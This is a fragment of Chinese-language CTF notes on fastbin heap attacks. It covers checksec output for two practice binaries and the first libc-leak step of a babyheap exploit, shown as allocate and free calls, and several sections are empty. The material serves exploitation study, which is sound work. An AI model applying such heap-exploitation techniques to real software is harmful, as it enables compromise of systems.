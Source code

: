 
##### 参考链接

https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/use-after-free

## fastbin attack

### 原理

### 例题

#### hitcontraining_secretgarden

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap/fastbin-attack$ checksec secretgarden
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/fastbin-attack/secretgarden'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

##### 程序流程

#### 2017 0ctf babyheap

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap/fastbin-attack$ checksec babyheap
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/fastbin-attack/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

开启了全保护

##### 详细步骤

**第一步：泄露libc基地址**

```
# 1. leak libc base
allocate(0x10)  # idx 0, 0x00
allocate(0x10)  # idx 1, 0x20
allocate(0x10)  # idx 2, 0x40
allocate(0x10)  # idx 3, 0x60
allocate(0x80)  # idx 4, 0x80
# free idx 1, 2, fastbin[0]->idx1->idx2->NULL
free(2)
free(1)
```
